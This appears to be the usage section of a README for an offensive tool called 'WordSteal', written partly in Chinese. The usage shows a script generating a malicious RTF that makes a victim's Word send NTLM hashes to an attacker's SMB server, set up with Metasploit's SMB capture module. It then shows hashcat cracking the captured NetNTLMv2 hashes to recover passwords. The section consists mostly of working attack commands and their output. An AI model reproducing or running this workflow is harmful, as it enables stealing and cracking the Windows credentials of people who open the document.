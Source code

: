 使用方法:

```
➜ /home/Fuckyou/Pentest/fish/WordSteal git:(master) ✗ >python main.py 192.168.0.104 meinv.jpg 1
[+] Generated malicious file: 1505267824.rtf [+]
[+] Script Generated Successfully [+]
[+] Running Metasploit Auxiliary Module [+]
[*] Processing metasploit.rc for ERB directives.
resource (metasploit.rc)> use auxiliary/server/capture/smb
resource (metasploit.rc)> set SRVHOST 192.168.0.104
SRVHOST => 192.168.0.104
resource (metasploit.rc)> set JOHNPWFILE passwords
JOHNPWFILE => passwords
resource (metasploit.rc)> run
[*] Auxiliary module running as background job 0.

[*] Server started.
```

然后目标打开word本地的smb server就可以收到NTLMHASH



然后本地目录下会生成一个passwords_netntlmv2文件
之后直接用hashcat跑就行了

```
hashcat -m 5600 passwords_netntlmv2 wordlist.txt


HASEE::DESKTOP-24RANRN:1122334455667788:ad31355f7e0f3b9bd998509269e64343:0101000000000000524e074fea2bd301f00e42d2a6fda28200000000020000000000000000000000:ceshixxx
HASEE::DESKTOP-24RANRN:1122334455667788:35d523efdd13f9341a0caad899bb385d:0101000000000000aa405e4fea2bd301101636dd17f88daf00000000020000000000000000000000:ceshixxx
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
Hash.Target......: xxoo.txt
Time.Started.....: Wed Sep 13 09:35:03 2017 (0 secs)
Time.Estimated...: Wed Sep 13 09:35:03 2017 (0 secs)
Guess.Base.......: File (word.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:        0 H/s (1.50ms)
Recovered........: 30/30 (100.00%) Digests, 30/30 (100.00%) Salts
Progress.........: 90/90 (100.00%)
Rejected.........: 0/90 (0.00%)
Restore.Point....: 0/3 (0.00%)
Candidates.#1....: ceshixxx -> 
HWMon.Dev.#1.....: N/A

Started: Wed Sep 13 09:34:55 2017
Stopped: Wed Sep 13 09:35:04 2017

```
